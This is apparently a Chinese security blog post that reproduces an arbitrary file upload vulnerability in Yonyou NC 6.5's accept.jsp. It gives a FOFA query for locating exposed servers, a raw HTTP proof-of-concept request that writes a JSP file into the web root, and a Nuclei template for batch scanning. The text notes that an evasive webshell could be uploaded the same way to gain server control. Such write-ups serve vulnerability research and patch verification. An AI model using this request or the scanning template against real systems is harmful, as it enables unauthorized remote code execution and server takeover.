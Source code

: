 # 原创
：  漏洞复现--用友NC accept.jsp任意文件上传

# 漏洞复现--用友NC accept.jsp任意文件上传

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

用友NC是大型企业管理与电子商务平台，帮助企业实现管理转型升级全面从以产品为中心转向以客户为中心（C2B）；从流程驱动转向数据驱动（DDE）；从延时运行转为实时运行（RTE）；从领导指挥到员工创新（E2M）。用友NC accept.jsp处存在任意文件上传漏洞，攻击者通过漏洞可以获取网站权限，导致服务器失陷。

### 二：漏洞影响版本

用友NC-6.5

### 三：网络空间测绘查询

fofa:<br/> `icon_hash="1085941792"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/0720f016375df96bb2c00c2ab8f99faf.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a74f4f5f3101f9ec84cc6582286b1450.jpeg"/><br/> POC：

```
POST /aim/equipmap/accept.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Connection: close
Content-Length: 449
Accept: */*
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=---------------------------yFeOihSQU1QYLu0KwhX72U5C1sMYc

-----------------------------yFeOihSQU1QYLu0KwhX72U5C1sMYc
Content-Disposition: form-data; name="upload"; filename="test.txt"
Content-Type: text/plain

&lt;% out.println("hello vul"); %&gt;
-----------------------------yFeOihSQU1QYLu0KwhX72U5C1sMYc
Content-Disposition: form-data; name="fname"

\webapps\nc_web\test.jsp
-----------------------------yFeOihSQU1QYLu0KwhX72U5C1sMYc--

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c8473d5822a5cbb3f8c600cd4118727d.jpeg"/><br/> 访问/test.jsp<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/4c69140f2e0c5fcac1f200327b16d45f.jpeg"/><br/> 上传成功，并且成功解析，可上传免杀马获得服务器权限

### 五：批量检测

```
id: yonyou-nc-accept-fileupload

info:
  name: 用友NC accept.jsp任意文件上传漏洞
  author: fgz
  severity: critical
  description: |
    用友NC是大型企业管理与电子商务平台，帮助企业实现管理转型升级全面从以产品为中心转向以客户为中心（C2B）；从流程驱动转向数据驱动（DDE）；从延时运行转为实时运行（RTE）；从领导指挥到员工创新（E2M）。用友NC accept.jsp处存在任意文件上传漏洞，攻击者通过漏洞可以获取网站权限，导致服务器失陷。
  reference:
    none
  metadata:
    verified: true
    max-request: 2
    fofa-query: icon_hash="1085941792"
  tags: yonyou,nc,fileupload,2023

variables:
  boundary: '{{rand_base(29)}}'

http:
  - raw:
      - |
        POST /aim/equipmap/accept.jsp HTTP/1.1
        Host: {{Hostname}}
        Accept: */*
        Content-Type: multipart/form-data; boundary=---------------------------{{boundary}}
        Accept-Encoding: gzip

        -----------------------------{{boundary}}
        Content-Disposition: form-data; name="upload"; filename="{{randstr_1}}.txt"
        Content-Type: text/plain

        &lt;% out.println("{{randstr_2}}"); %&gt;
        -----------------------------{{boundary}}
        Content-Disposition: form-data; name="fname"

        \webapps\nc_web\{{randstr_3}}.jsp
        -----------------------------{{boundary}}--
      - |
        GET /{{randstr_3}}.jsp HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Accept-Encoding: gzip

    req-condition: true
    matchers:
      - type: dsl
        dsl:
          - "status_code_1 == 200"
          - "status_code_2 == 200 &amp;&amp; contains(body_2,'{{randstr_2}}')"
        condition: and

```
